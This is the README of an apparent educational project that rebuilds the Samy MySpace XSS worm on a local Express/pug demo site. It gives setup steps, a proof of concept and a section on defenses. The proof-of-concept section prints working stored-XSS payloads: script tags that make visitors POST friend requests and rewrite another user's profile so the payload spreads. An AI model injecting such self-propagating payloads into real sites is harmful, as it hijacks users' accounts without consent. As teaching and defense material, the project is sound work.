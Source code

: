 # XSS Worm

## Setup
**Dependencies**
<ul>
    <li>Python 3</li>
    <li>Node.js</li>
    <li>Express</li>
    <li>sqlite3</li>
</ul>

Install packages by typing `npm install`

**Run Server**<br>
`node app.js`<br>
Then navigate to `localhost:9100` on browser.

**Create Database**<br>
The database is stored as `example.sqlite` in the same directory as `app.js` <br>

`python3 sql_connect.py < create_tables.sql`<br>
Will create Users table with autoincrementing ID, fullname, username, and password columns.<br>

`python3 sql_connect.py < insert_entry.sql`<br>
Will create default user 'John Doe' with username 'asdf' and password 'qwerty'. Can edit this file for more users. <br>

Input for XSS Worm is stored in `exploit.txt`

## What is XSS Worm
From [Wikipedia](https://en.wikipedia.org/wiki/XSS_worm)
> An XSS worm, sometimes referred to as a cross site scripting virus, is a malicious (or sometimes non-malicious) payload, usually written in JavaScript, that breaches browser security to propagate among visitors of a website in the attempt to progressively infect other visitors.

The most famous of these XSS worms is the [Samy Worm](https://samy.pl/myspace/) where a MySpace user named Samy Kamkar forced users to add himself as a friend and claim him to be his 'hero'. The virus also applied to the victim as well, so subsequent views also infected them, resulting in a spread of about 1 million users.

## Proof of Concept

**Normal Login**
![](screenshots/samy_normal.png)
A user is given a profile page detailing their Name, Occupation, Association, and Number of Friends. Here we have Samy (the malicous attacker), and two normal user John and Alice with similar setups. Key thing to note is that each profile URL contains the user's username. <br>

Credentials for each user can be found in `credentials.txt`

**Samy Edit**<br>
![](screenshots/samy_edit.png)
Each user has an option to edit their profile, but Samy here knows the backend doesn't sanitize input properly and has predictable endpoints. So Samy is able to input `<script>` tags for his information and pass in in-line javascript.

**Code to Add a Friend** <br>
`Myspace <script>fetch("/elite/addFriend", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "elite"})})</script>`<br>
Here, we can edit the Association entry to make it such that anybody who views the page will trigger a `POST` request to add him as a friend.

**Code to Also Make Another Profile Add Samy as a Friend** <br>
`Hacker<script>fetch("/edit", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "average", fullname: "John", occupation:"", association: "Myspace <s\cript>fetch(\"/elite/addFriend\", { method: \"POST\", headers: { \"Content-Type\": \"application/json\" }, body: JSON.stringify({user: \"elite\"})})</s\cript>"})})</script>`<br>
Knowing John's username based on the URL, he can make it such that he can also make John's profile add him as well. So we input the following string to our Occupation entry. A more robust exploit can make the username general, but for demo purposes we'll hard-code the user to be infected.  We can verify that John is infected because now his Association is Myspace as well

## Defense Against XSS Worms
OWASP provides a good prevention cheat sheet [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>

For our purposes, changing the `pug` file such that it doesn't allow for [unescaped string interpolation](https://pugjs.org/language/interpolation.html#string-interpolation-unescaped) and making the urls obscure more information would be enough to prevent an attacker like Samy from exploiting. Those changes are reflected in `routes/fixed_index.js` and `views/fixed_dynamic.pug`. Simply run `node fixed_app.js` to view corrections.

**Notes**
<ul>
    <li>If login page is not updating, clear browser cache</li>
</ul>
